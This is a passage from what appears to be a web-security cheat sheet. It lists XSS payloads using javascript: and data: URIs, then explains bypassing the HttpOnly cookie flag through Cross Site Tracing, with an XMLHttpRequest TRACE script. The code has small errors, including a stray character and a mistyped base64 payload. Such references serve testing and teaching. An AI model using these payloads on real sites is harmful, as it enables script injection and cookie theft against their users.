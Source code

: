 ```
<a href="javascript:alert(1)">click</a>
<a href="data:text/html;base64,amF2YXNjcmlwdDphbGVyKDEp">click</a>
<form action="javascript:alert(1)"><button>send</button></form>

<form id=x></form><button form="x" formaction="javascript:alert(1)">send</button>
```



### 2. Bypassing the HTTPOnly flag

The  HTTPOnly flag can be enabled with the response header `Set-Cookie`:

```
Set-Cookie: <cookie-name>=<cookie-value>; HttpOnly
```

HTTPOnly forbids javaScript from accessing the cookies, for example, through the `Document.cookie` property.

#### 2.1. Cross Site Tracing

[OWASP Cross Site Tracing reference](https://owasp.org/www-community/attacks/Cross_Site_Tracing)

Technique for bypassing HTTPOnly flag. Since scripting languages are blocked due to the use of HTTPOnly, this technique proposes to use the HTTP TRACE method.

HTTP TRACE method is a method used for debugging, and it echoes back input requests to the user. So, if we send HTTP headers normally inaccessible to Javascript, we will be able to read them.

We will take advantage of the javascript object `XMLHttpRequest`that provides a way to retrieve data from an URL without having to do a full page refresh:

```html
<script> //TRACE Request
	var xmlhttp = new XMLHttpRequest()M
	var url = 'http://victim.site/';
	xmlhttp.withCredentials = true; // Send cookie header
	xmlhttp.open('TRACE', url);

	// Callback to log all response headers
	function hand() { console.log(this.getAllResponseHeaders());}
	xmlhttp.onreadystatechange = hand;

	xmlhttp.send(); // Send the request

</script>
```

Modern browsers block the HTTP TRACE method in XMLHttpRequest and other scripting languages and libraries such as JQuery, Silverlight... But if the attacker finds another way of doing HTTP TRACE requests, then they can bypass the HTTPOnly flag. 

> For instance, Amit Klein found a simple trick for IE 6.0 SP2. Instead of using TRACE for the method, he used `\r\nTRACE`and the payload worked under certain circumstances.

